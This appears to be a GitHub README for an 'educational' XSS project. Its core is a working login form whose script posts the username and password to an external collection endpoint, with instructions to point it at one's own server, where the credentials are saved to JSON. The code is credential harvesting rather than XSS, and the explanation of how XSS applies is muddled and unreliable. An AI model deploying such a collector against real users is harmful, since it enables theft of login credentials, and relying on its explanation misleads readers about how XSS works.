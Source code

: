 # XSS Attack Project

## Disclaimer
This project is intended for educational purposes only. Cross-Site Scripting (XSS) is a security vulnerability that should only be tested responsibly and with proper authorization. Unauthorized testing of XSS vulnerabilities is illegal and unethical.

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

1. [Installation](#installation)
2. [How to run the code](#how-to-run-the-code)
3. [Client Side Code](#client-side-code)
4. [XSS Demo Video](#xss-demo-video)
5. [Contribution Guidelines](#contribution-guidelines)
6. [License Information](#license-information)
7. [Additional Resources](#additional-resources)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Ensure you have Git installed on your machine. You can download it from [Git](https://git-scm.com/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* It is recommended to run this project in a local or isolated environment due to potentially sensitive login data. But you can run on GitHub Codespace as well.
* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

### Explanation
The client-side code handles the user input from the login form. When the login button is clicked, the `sendLoginToAPI` function is triggered. This function collects the username and password entered by the user and sends them to the server using an AJAX POST request. The server then processes this data and saves it to a JSON file. The XSS vulnerability could be exploited if an attacker injects malicious scripts into the username or password fields, which would then be executed when the data is processed or displayed.

## XSS Demo Video
<details><summary>View Demo Video</summary>


https://github.com/user-attachments/assets/289917ae-d0b3-43f3-8b9d-1af6f298c824

</details>


## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the ISC License.

## Additional Resources

* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [MDN Web Docs: Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
